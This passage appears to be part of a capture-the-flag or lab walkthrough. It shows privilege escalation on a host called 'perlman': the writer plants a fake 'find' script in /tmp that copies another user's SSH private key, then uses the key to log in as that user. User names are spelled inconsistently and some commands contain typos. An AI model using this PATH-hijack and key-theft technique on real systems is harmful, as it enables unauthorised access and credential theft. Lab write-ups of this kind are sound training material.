




5.2 Get access as "milow" user.
1. Run the following comand on you SSH connection.
rita@perlman:/$ cd /home
rita@perlman:/home$ ls
Output:

There's an user called “milor”.
2. Go to “/tmp” and run the followng command.
rita@perlman:/$ cd /tmp
rita@perlman:/tmp$ echo "cp /home/milou/.ssh/id_rsa /tmp/milou && chmod 777 /tmp/milou" > find
rita@perlman:/$ chmod +x find
rita@perlman:/tmp$ watch ls -al milou
rita@perlman:/tmp$ cat milou
Output:

“milou” file has a key to access as “milow” user.

3. On Kali Machine create new file called “millou” and paste the key from the previous step.
$ nano milou
$ chmod 600 milou
4. Connect via SSH.
$ ssh -i milou milou@192.168.12.68
Output:
